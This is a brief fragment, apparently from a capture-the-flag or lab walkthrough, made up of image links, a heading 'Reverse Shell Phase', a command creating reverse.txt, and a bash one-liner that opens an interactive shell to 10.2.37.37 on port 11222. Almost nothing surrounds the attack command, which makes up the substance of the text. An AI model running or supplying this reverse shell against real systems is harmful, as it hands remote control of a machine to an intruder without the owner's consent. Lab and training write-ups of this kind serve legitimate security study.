 ![image.png](image%204.png)

![image.png](image%205.png)

> **Reverse Shell Phase**
> 

`nano reverse.txt`

```jsx
/bin/bash -i >& /dev/tcp/10.2.37.37/11222 0>&1
```
